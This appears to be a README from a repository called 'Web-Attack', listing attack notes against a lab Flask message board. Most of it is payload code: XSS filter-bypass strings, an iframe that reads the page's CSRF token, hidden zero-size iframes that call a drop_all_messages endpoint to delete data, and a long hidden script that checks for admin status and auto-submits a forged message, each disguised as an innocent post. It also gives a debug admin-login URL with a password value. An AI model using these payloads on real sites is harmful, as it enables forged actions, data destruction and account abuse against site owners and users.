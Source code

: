 # Web-Attack
 
*** Debug login as admin ***

https://172.21.73.116:5000/login?password=c90fcd9b2c5b3000299db8c12c3d2157



*** Certificate ***

https://blog.miguelgrinberg.com/post/running-your-flask-application-over-https



*** Find XSS Pathway ***

<script>alert('XSS')</script>
<scri<script>pt>alert('XSS')</scri<script>pt>
<img src="fakePath" onerror="javascript:alert('XSS');">
<img src="javascript:alert('XSS');"></img>
<iframe src="javascript:alert('XSS');"></iframe>



*** Publish Message as Administrator ***

<iframe src="javascript:alert(window.parent.document.getElementById('csrf_token').value);"></iframe>
<iframe src="https://172.21.70.152:5000/drop_all_messages"></iframe>

<iframe width="0" height="0" style="opacity: 0;" src="javascript:const f = window.parent.document; var tags = f.getElementsByTagName('p'); var isAdmin = 1; for (const t of tags) { if (t.innerHTML === 'אתה מחובר כמשתמש חלש!') { isAdmin = 0; } }; if (isAdmin == 1) { var headers3 = f.getElementsByTagName('h3'); var wasPublished = 0; for (const h3 of headers3) { if (h3.innerHTML === 'Mail: attacker@xss.com') { wasPublished = 1; } }; if (wasPublished == 0) { f.getElementsByName('name')[0].value = 'Attacker'; f.getElementsByName('email')[0].value = 'attacker@xss.com'; f.getElementsByName('subject')[0].value = 'Attacking'; f.getElementsByName('phone_number')[0].value = '052911911'; f.getElementsByName('message')[0].value = 'Lorem ipsum dolor sit amet, consectetur adipiscing elit. Suspendisse sodales pellentesque neque, gravida semper turpis hendrerit in. Interdum et malesuada fames ac ante ipsum primis in faucibus. Vestibulum sit amet leo eu justo fermentum malesuada. Mauris condimentum metus mi, ut bibendum orci pellentesque et. Cras fermentum purus eu enim rutrum gravida. Vivamus varius maximus enim. Ut dapibus at dolor ac pretium. Curabitur vel justo nisl. Duis ac iaculis metus. Curabitur a facilisis neque. Vestibulum bibendum dignissim quam, vel dictum ipsum gravida eget. Phasellus quis maximus purus. Nam semper aliquam velit. Duis quis nisi at turpis viverra dignissim.';  f.getElementsByName('contact-form')[0].submit(); }};"></iframe>
Just an ordinary legitimate message :)




<object type="text/x-scriptlet" data="javascript:alert(XSS);">


<iframe width="0" height="0" style="opacity: 0;" src="https://172.21.73.116:5000/drop_all_messages/"></iframe>
This message is definitely not malicious :)





